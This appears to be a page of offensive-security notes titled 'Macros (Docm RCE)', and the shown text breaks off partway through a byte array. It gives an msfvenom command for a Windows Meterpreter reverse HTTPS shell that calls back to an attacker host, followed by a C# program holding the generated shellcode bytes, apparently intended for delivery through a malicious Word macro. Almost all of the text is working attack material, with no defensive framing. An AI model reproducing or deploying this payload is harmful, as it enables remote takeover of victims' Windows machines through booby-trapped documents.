 ### Macros (Docm RCE)

Use the CSharp project to encrypt payload.

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=$kali_ip LPORT=443 -f csharp
```

```bash
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace Helper
{
    class Program
    {
        static void Main(string[] args)
        {
            byte[] buf = new byte[689] {0xfc,0xe8,0x8f,0x00,0x00,0x00,
                0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,0x0c,
                0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,
                0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,
                0x01,0xc7,0x49,0x75,0xef,0x52,0x8b,0x52,0x10,0x8b,0x42,0x3c,
                0x01,0xd0,0x57,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4c,0x01,0xd0,
                0x8b,0x48,0x18,0x50,0x8b,0x58,0x20,0x01,0xd3,0x85,0xc9,0x74,
                0x3c,0x31,0xff,0x49,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xc0,0xac,
                0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf4,0x03,0x7d,0xf8,
                0x3b,0x7d,0x24,0x75,0xe0,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,
                0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,
                0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,
                0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xe9,0x80,0xff,0xff,0xff,0x5d,
                0x68,0x6e,0x65,0x74,0x00,0x68,0x77,0x69,0x6e,0x69,0x54,0x68,
                0x4c,0x77,0x26,0x07,0xff,0xd5,0x31,0xdb,0x53,0x53,0x53,0x53,
                0x53,0xe8,0x54,0x00,0x00,0x00,0x4d,0x6f,0x7a,0x69,0x6c,0x6c,
                0x61,0x2f,0x35,0x2e,0x30,0x20,0x28,0x4d,0x61,0x63,0x69,0x6e,
                0x74,0x6f,0x73,0x68,0x3b,0x20,0x49,0x6e,0x74,0x65,0x6c,0x20,
                0x4d,0x61,0x63,0x20,0x4f,0x53,0x20,0x58,0x20,0x31,0x34,0x2e,
                0x34,0x3b,0x20,0x72,0x76,0x3a,0x31,0x32,0x34,0x2e,0x30,0x29,
                0x20,0x47,0x65,0x63,0x6b,0x6f,0x2f,0x32,0x30,0x31,0x30,0x30,
                0x31,0x30,0x31,0x20,0x46,0x69,0x72,0x65,0x66,0x6f,0x78,0x2f,
                0x31,0x32,0x34,0x2e,0x30,0x00,0x68,0x3a,0x56,0x79,0xa7,0xff,
                0xd5,0x53,0x53,0x6a,0x03,0x53,0x53,0x68,0xbb,0x01,0x00,0x00,
                0xe8,0x73,0x01,0x00,0x00,0x2f,0x37,0x37,0x5a,0x4b,0x51,0x5f,
                0x74,0x76,0x43,0x30,0x50,0x74,0x4a,0x75,0x77,0x6e,0x69,0x37,
                0x72,0x71,0x31,0x51,0x4a,0x64,0x44,0x75,0x5a,0x7a,0x63,0x54,
                0x57,0x57,0x63,0x53,0x35,0x55,0x6f,0x34,0x5f,0x34,0x47,0x54,
                0x4c,0x73,0x4b,0x78,0x76,0x38,0x4e,0x54,0x72,0x74,0x42,0x4b,
                0x76,0x6e,0x4c,0x42,0x50,0x39,0x44,0x63,0x7a,0x4d,0x56,0x32,
                0x6f,0x4c,0x59,0x7a,0x4b,0x68,0x73,0x73,0x61,0x57,0x41,0x44,
                0x41,0x48,0x69,0x58,0x71,0x59,0x38,0x7a,0x7a,0x71,0x52,0x48,
                0x49,0x78,0x66,0x4c,0x45,0x62,0x71,0x4c,0x50,0x66,0x32,0x4c,
                0x33,0x4b,0x45,0x77,0x49,0x52,0x63,0x35,0x47,0x4a,0x6e,0x62,
                0x4d,0x4b,0x79,0x35,0x41,0x33,0x4d,0x6e,0x4a,0x2d,0x34,0x30,
                0x33,0x54,0x67,0x53,0x68,0x36,0x74,0x65,0x39,0x6f,0x37,0x77,
                0x78,0x32,0x37,0x56,0x4b,0x55,0x4b,0x66,0x4f,0x31,0x68,0x56,
                0x4a,0x55,0x35,0x4e,0x65,0x65,0x32,0x61,0x77,0x50,0x59,0x35,
                0x61,0x50,0x42,0x6e,0x66,0x74,0x63,0x56,0x4c,0x33,0x78,0x43,
                0x6c,0x34,0x2d,0x67,0x6a,0x47,0x49,0x59,0x4e,0x46,0x4e,0x4a,
                0x6a,0x62,0x71,0x59,0x78,0x59,0x73,0x46,0x4c,0x38,0x68,0x7a,
                0x4d,0x73,0x39,0x39,0x63,0x67,0x57,0x61,0x69,0x73,0x5f,0x35,
                0x65,0x7a,0x41,0x64,0x4d,0x76,0x6b,0x76,0x58,0x4b,0x77,0x4d,
```